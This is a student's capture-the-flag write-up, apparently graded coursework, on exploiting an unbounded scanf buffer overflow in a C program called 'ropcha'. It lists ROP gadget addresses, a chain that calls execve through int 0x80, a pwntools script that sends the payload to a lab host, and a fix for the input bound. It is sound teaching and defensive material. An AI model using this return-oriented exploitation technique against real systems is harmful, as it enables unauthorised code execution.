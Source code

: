 **Name:** DukDev 

**Points:** 0.9 of 1 Points

**Notes:** Solution should be scanf('%15[^\n]s'). 15 instead of 16. scanf adds the 16th byte (a terminating null-byte).

<hr>

ropcha
======

Overview
--------
The program asks for the users name and nickname. After that the user gets tasked with solving 1000000 captchas in 5 seconds. If the user succeeds, the flag gets printed.

Vulnerability
-------------
The vulnerability in the code is the question for the users name. It is a "scanf" with no restriction on the size of the users input, thus making a buffer overflow possible.

```c
void
welcome_banner_real(void) {
        char name[NAME_LENGTH];

        printf(msg_nickname);
        fflush(stdout);
        scanf("%[^\n]s", name);
        getchar();

        printf(msg_banner, name, NUM_CAPTCHA, MAX_TIME);
}

```

Exploitation
------------
First, I tried if a Buffer Overflow is possible. It is. Then I tried to figure out a way to make the program execute "getflag" (the program that prints out the flag). In the notes for the challenge I read about "execve", a syscall used to execute a program. In the complementary resources I read about "int 0x80", an interrupt signal, which can be used to execute execve.  

This works as follows:  
"int 0x80" calls the syscall specified in the register eax. Every syscall has a specific number (depending on architecture). In our case, the syscall "execve" has the number 0x0b = 11.
"execve" executes the program specified in the memory pointed to by ebx, meaning, if at the memory of ebx the string "getflag" is saved, "execve" will call "getflag". The other parameters of "execve" are in ecx and edx. For our purposes it is sufficient to fill those parameters with NULL.   

So, the final call needs to be "int_0x80" with 0x0b saved in eax and "getflag" saved at the memory pointed to by ebx.

So a step-by-step plan would be:    


1.  Write "getflag" into a writable memory region   
2.  Write 0x0b into eax, and the address of "getflag" into ebx and execute "int 0x80"     

To do all this, a ropchain is needed.

I used

```bash
ROPgadget --binary ropcha

```
to get all the gadgets found in "ropcha".

The gadgets I used are:

```
pop edx ; ret = 0x0806eabb
pop eax ; ret = 0x080bd696
mov DWORD PTR [edx], eax  ; ret = 0x08057795
xor eax, eax ; ret = 0x08056d50
pop ebx ; ret = 0x080481d1
mov edx, 0xffffffff = 0x08056e05
inc edx ; ret = 0x0805f7e7
xor ecx, ecx ; int_x80 = 0x0806ee81

```

1. Write "getflag" into a writable memory region  

   I got the memory region with

   ```bash
   cat /proc/{pid_of_ropcha}/maps
   ```
   In my case, i used "0x080ef000" as address for "getflag".

   Following steps/input values are needed to write "getflag" into that address:
   - 0x0806eabb: pop edx ; ret
   - 0x080ef000: the address for "getflag"
   - 0x080bd696: pop eax ; ret
   - "getf": first 4 bytes of "getflag"
   - 0x08057795: mov DWORD PTR [edx], eax  ; ret
   - 0x0806eabb: pop edx ; ret
   - 0x080ef000 + 4: address for the rest of "getflag"
   - 0x080bd696: pop eax ; ret
   - "lagg": "lagg" because I need 4 bytes.
   - 0x08057795: mov DWORD PTR [edx], eax  ; ret
   - 0x0806eabb: pop edx ; ret
   - 0x080ef000 + 7: address for the nullbyte for "getflag". Sets the last "g" to a nullbyte
   - 0x08056d50: xor eax, eax ; ret: Set eax to 0
   - 0x08057795: mov DWORD PTR [edx], eax  ; ret

   Now "getflag" is written into the address at 0x080ef000 and terminated with a nullbyte.


2. Write 0x0b into eax, and the address of "getflag" into ebx and execute "int 0x80"  

   - 0x080bd696: pop eax ; ret
   - 0x0b: 11 in hex, the code for "execve"
   - 0x080481d1: pop ebx ; ret
   - 0x080ef000: the address where "getflag" is stored.
   - 0x08056e05: mov edx, 0xffffffff: sets edx to the highest possible value
   - 0x0805f7e7: inc edx ; ret: increment edx by 1, thus setting it to 0
   - 0x0806ee81: xor ecx, ecx ; int_x80: setting ecx to 0, and executing "int 0x80"

   Now the registers are filled with the right values and "int 0x80" gets executed, which calls "execve", which calls "getflag" and the flag is printed.

My Code:

```python
#!/usr/bin/python3

import sys
from pwn import *

def main():
    #writable_reg = 0x080ef000

    padding = b'A' * 28
    #gadgets
    pop_edx = p32(0x0806eabb)
    pop_eax = p32(0x080bd696)
    mov_ptr_edx_eax = p32(0x08057795)
    xor_eax = p32(0x08056d50)
    pop_ebx = p32(0x080481d1)
    mov_edx_ff = p32(0x08056e05)
    inc_edx = p32(0x0805f7e7)
    xor_ecx_int_x80 = p32(0x0806ee81)

    payload = padding + pop_edx + p32(0x080ef000)  + pop_eax + b"getf" + mov_ptr_edx_eax + pop_edx + p32(0x080ef000 + 4) + pop_eax + b"lagg" + mov_ptr_edx_eax + pop_edx + p32(0x080ef000 + 7) + xor_eax + mov_ptr_edx_eax + pop_eax + p32(0x0b) + pop_ebx + p32(0x080ef000) + mov_edx_ff + inc_edx + xor_ecx_int_x80

    p = remote("10.3.0.5", 31337)
    #pd = gdb.attach(p)
    print(p.recvuntil("? "))
    p.sendline(payload)
    p.interactive()



if __name__ == '__main__':
    main()

```

Solution
--------
I would use the size field in scanf to set a size limit to the users input:

```c
scanf("%16[^\n]s", name);

```

The "16" limits the input to 16 characters. I used 16 because NAME_LENGTH = 16.
With this, in all occurrences of scanf, a buffer overflow is not possible.

